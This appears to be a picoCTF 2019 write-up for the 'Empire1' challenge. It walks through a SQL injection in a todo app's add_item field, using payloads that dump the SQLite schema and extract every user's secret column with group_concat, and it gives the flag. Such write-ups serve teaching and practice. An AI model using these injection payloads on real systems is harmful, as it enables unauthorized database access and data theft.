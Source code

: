 # Empire1 - Points: 400

1. First, lets go through the website : https://2019shell1.picoctf.com/problem/4155/
2. Then, register an account.
3. Next, lets look around the website and see that there is only a part that we can type something in it : https://2019shell1.picoctf.com/problem/4155/add_item
4. If we can type something in it, it means that it might be injected. The only thing is what kind of injection it is. First, I tried sql injection with https://stackoverflow.com/questions/23372550/what-does-sql-select-symbol-mean/23372603 . As you can see, the payload become : 
    ```
    '||(select sql from sqlite_master)||'
    ```
    So, what is the command for? First, you have to know what is sqlite. Here is the payload : 
    ```
    CREATE TABLE sqlite_master (
      type TEXT,
      name TEXT,
      tbl_name TEXT,
      rootpage INTEGER,
      sql TEXT
    );
    ```
    As you can see, I select sql to know what is in it's database from sqlite_master.
    p.s. If you have no idea what I am talking about, I strongly recommend you to read some documents about sql.
    And you can click "Your todos" button to get informations.
    ```
    CREATE TABLE user ( 
        id INTEGER NOT NULL, 
        username VARCHAR(64), 
        name VARCHAR(128), 
        password_hash VARCHAR(128), 
        secret VARCHAR(128), 
        admin INTEGER, 
        PRIMARY KEY (id) 
        )
    ```
5. Now, you have the whole informations about what table ("user"), and the very interesting part is the "secret". The mission now is to think of a payload that can grab those informations out. 
    ```
    '||(select secret from user)||'
    ```
    And the result is : 
    ```
    Likes Oreos.
    ```
    So, there is no informations or we didn't pull out all data in it. Lets switch to another payload by "group_concat()" https://www.w3resource.com/sqlite/aggregate-functions-and-grouping-group_concat.php
    And here is the new payload : 
    ```
    '||(select group_concat(secret) from user)||'
    ```
    So, why use group_concat() ? We select the name and get whole data but we can just print one line, so we need group_concat() to help us.
    Finally, you can get the flag.
6. Here is the flag : picoCTF{wh00t_it_a_sql_injectd75ebff4}
